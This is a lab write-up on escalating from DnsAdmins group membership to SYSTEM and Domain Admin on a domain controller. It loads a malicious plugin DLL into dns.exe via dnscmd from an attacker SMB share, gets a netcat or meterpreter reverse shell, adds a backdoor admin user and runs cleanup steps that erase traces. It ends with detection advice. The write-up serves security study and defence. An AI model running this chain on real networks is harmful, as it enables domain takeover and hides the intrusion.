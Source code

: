 # From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/code-injection-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-16-55-52.png)

### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server \(DC\). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary when loading a plugin DLL. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed. 

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine - code gets executed, shell gets spawned:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-30-47.png)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim `DC01` to load our malicious DLL \(from the victim controlled network share on host 10.0.0.2\) next time the service starts \(or when the attacker restarts it\):

{% code title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-55-59.png)

{% hint style="info" %}
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
{% endhint %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-17-04-48.png)

The below command on the victim further suggests that our request was successful and the registry value `ServerLevelPluginDll` points to our malicious DLL:

```csharp
# note that as attacker you cannot check this on a DC since you do not have yet access to the system. Because this is a lab environment, I am checking the registry from the DC itself.
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-51-21.png)

### Getting code execution with NT\SYSTEM

Now the next time dns service starts, our malicious DLL should be loaded to the dns.exe process and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service:

{% code title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode %}

By this point, I should have received a reverse shell, but unfortunately, I did not.

After checking the DNS logs on the `DC01` I saw the below error, suggesting there was something off with my DLL:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-45-51.png)

I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully without corrupting the dns service:

![](../../.gitbook/assets/screenshot-from-2018-11-11-21-46-09.png)

{% hint style="warning" %}
Although I was not able to correctly inject the DLL without crashing the dns service in my lab environment, I still decided to publish these notes, in case they will be stubmled upon by a reader who had successfully injected a custom DLL and who would like to share their thoughts on what I am overlooking as this would be much appreciated.
{% endhint %}

Since I could not get my malicious DLL injected into the dns.exe successfully, I thought of trying to inject the meterpreter payload using the same technique.

It can be observed, that the DLL with meterpreter payloads gets ineed loaded and we receive a call back attempt from meterpreter, but since the DLL does not conform to the required format \(does not have required exported functions\), the session dies immediately \(or this is what I thought initially - as you will later see, it turns out I was simply using a wrong listener\):

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-33-58.png)

Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```text
dnsprivesc.dll
```

![](../../.gitbook/assets/screenshot-from-2018-11-11-22-55-35.png)

Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user `spotless` is not in `Domain Admins` group:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-40.png)

Now if we restart the DNS service which will load our `addDA.dll`, we see that the user `spotless` is now a member of the `Domain Admins`:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-03-52.png)

{% hint style="danger" %}
Warning: at this time the DNS service is probably crashed, so be warned - using DLLs that do not conform to the plugin requirements is not stealthy and this type of activity probably will get picked up by defenders really quickly unless you can restore the DNS service immediately.
{% endhint %}

Below confirms that the dns service is down, however we can still access the DC C$ share by DC's IP from our spotless user, meaning that we have escalated privileges to DA:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-09-23.png)

One could think about scripting/automating the after-attack cleanup and the DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:

{% code title="attacker@victim" %}
```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-21-55.png)

Once the DNS service is restored, we can now access the C$ using DC01 computer name:

![](../../.gitbook/assets/screenshot-from-2018-11-11-23-24-44.png)

### Bonus Reminder

It turns out that the reason the meterpreter payload failed because of a classic mistake of not using the right listener for staged/non-staged payloads - always double check your payloads and make sure that the listeners are able to handle the callbacks.

Once I set up the listener correctly, the meterpreter shell came back as expected - note that the dns.exe service still gets corrupted.

![](../../.gitbook/assets/peek-2018-11-12-21-58.gif)

## Observations

As a defender, one should considering monitoring for suspicious child processes \(rundll32, powershell, cmd, net, etc.\) spawned by the dns.exe on DCs:

![](../../.gitbook/assets/screenshot-from-2018-11-12-22-09-43.png)

Also, you may want to consider monitoring `HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters` value `ServerLevelPluginDll`, especially if it begins with string `\\` in the data field.

## Update \#1

I was pointed out by a reader that a video by ippsec [https://youtu.be/8KJebvmd1Fk?t=3130](https://youtu.be/8KJebvmd1Fk?t=3130) explains why the dns service was crashing, so please check the video, but if you are too lazy, the answer is provided here too.

You need to execute your code in a **new thread** \(this was the missing piece in my first attempt\) in the exported DLL function `DnsPluginInitialize`, which is the function that gets invoked, when the dnscmd load our malicious DLL.

## References

{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}

{% embed url="https://github.com/dim0x69/dns-exe-persistance" %}

